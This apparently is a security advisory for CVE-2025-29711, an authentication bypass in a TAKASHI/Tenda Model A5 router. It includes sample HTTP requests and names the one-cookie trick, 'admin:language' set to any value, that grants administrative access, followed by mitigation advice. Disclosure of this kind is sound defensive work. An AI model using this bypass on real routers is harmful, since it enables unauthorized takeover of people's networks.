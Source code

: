 # TAKASHI Wireless Instant Router and Repeater - Authentication Bypass Vulnerability CVE-2025-29711

## Overview
A critical authentication bypass vulnerability has been identified in the TAKASHI Wireless Instant Router and Repeater (Model A5) running firmware version **V5.07.38_AAL03** with hardware version **V3.0**. This vulnerability allows unauthorized users to gain administrative access due to improper session management.

## Affected Model
- **Model**: A5
- **Manufacturer**: Tenda 
- **Software Version**: V5.07.38_AAL03  
- **Hardware Version**: V3.0  

## Vulnerability Details
Improper session management in Takashi Wireless Instant Router and
Repeater (Model A5) firmware v5.07.38_AAL03 with hardware v3.0 allows
unauthorized attackers to gain admin-level access via a crafted
request.
## Request Comparison
To understand how this vulnerability works, let's compare an unauthenticated request to an authenticated request.

### Unauthenticated Request
```
POST /LoginCheck HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.2.1/login.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://192.168.2.1
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: language=en
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Username=admin&checkEn=0&Password=whatsthepassword
```

### Authenticated Request
```
GET /wireless_basic.asp HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.2.1/advance.asp
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: language=en; admin:language=en
Upgrade-Insecure-Requests: 1
Priority: u=4
```

## Key Difference
The key difference between the two requests is the presence of the following cookie:
```
admin:language=en
```

## The Vulnerability
The application trusts the `admin:language` cookie without properly verifying session authentication. By simply adding this cookie with an arbitrary value, an unauthenticated user can gain full administrative access.

### Exploit Mechanics
An attacker can exploit this vulnerability by setting the following cookie:
```
admin:language=<any_value>
```
Where `<any_value>` can be any string, text, or number. As long as the cookie is present, the application will treat the user as an authenticated admin.

## Impact
- Unauthorized users can gain admin-level access without valid credentials.
- Attackers can modify router settings, expose sensitive data, and potentially disrupt network operations.
- No brute-force or credential stuffing is needed—just cookie manipulation.

## Mitigation
To mitigate this issue, the following steps should be taken:
1. **Proper Session Management**: Implement server-side session validation instead of relying on client-side cookies.
2. **Token-Based Authentication**: Use secure session tokens that cannot be forged.
3. **Session Expiry**: Ensure sessions expire and require re-authentication after a set period.
4. **Cookie Integrity Checks**: Validate cookies against an active session in the backend database.


## References
- [OWASP Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)
- [GoAhead Web Server](https://www.embedthis.com/goahead/)

## Disclaimer
This vulnerability report is for educational and research purposes only. The information provided should not be used for malicious activities. Always obtain proper authorization before testing security vulnerabilities on any system.

---

**Contributors**  
- William James Schleppegrell


